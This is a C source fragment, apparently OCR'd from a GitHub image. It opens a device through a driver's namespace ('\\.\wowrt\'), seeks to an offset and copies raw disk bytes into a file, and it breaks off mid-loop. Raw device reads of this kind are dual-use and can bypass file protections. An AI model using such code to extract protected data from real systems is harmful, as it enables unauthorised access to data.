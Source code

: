 ```c

    wchar_t devicePath[MAX_PATH] = { 0 };
    HRESULT hr = StringCchPrintfW(devicePath, MAX_PATH, L"\\\\.\\wowrt\\%s", target);
    
    if (FAILED(hr)) 
    {
        wprintf(L"[-] Invalid\n");
        return 1; 
    }

    wprintf(L"\n[+] Trying to open device: %s\n", devicePath);

    HANDLE hDev = CreateFileW(devicePath, GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE,nullptr, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, nullptr);
    if (hDev == INVALID_HANDLE_VALUE) 
    { 
        wprintf(L"[-] Unable to open device\n");
        return 2; 
    }

    LARGE_INTEGER li; li.QuadPart = (LONGLONG)offset;
    if (!SetFilePointerEx(hDev, li, nullptr, FILE_BEGIN)) 
    { 
        wprintf(L"[-] Failed to set position\n");
        CloseHandle(hDev); 
        return 3; 
    }

    wprintf(L"[+] Writing to file: %s\n", outPath);
    HANDLE hOut = CreateFileW(outPath, GENERIC_WRITE, 0, nullptr, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, nullptr);
    if (hOut == INVALID_HANDLE_VALUE) 
    { 
        wprintf(L"[-] Failed to create file\n");
        CloseHandle(hDev); 
        return 4; 
    }

    const DWORD chunk = 1 << 20;
    BYTE* buffer = (BYTE*)VirtualAlloc(nullptr, chunk, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!buffer) 
    { 
        wprintf(L"[-] Failed to allocate\n");
        CloseHandle(hOut);
        CloseHandle(hDev); 
        return 5; 
    }

    ULONGLONG remaining = length;
    while (remaining > 0) 
    {
        DWORD toRead = (DWORD)((remaining > chunk) ? chunk : remaining);
        DWORD bytesRead = 0;
        BOOL ok = ReadFile(hDev, buffer, toRead, &bytesRead, nullptr);
        if (!ok)
        { 
            wprintf(L"[-] Failed to read disk\n"); 
            break;
        }
        
        if (bytesRead == 0) 
        { 
            wprintf(L"[!] Something wrong here. Zero bytes...\n"); 
```
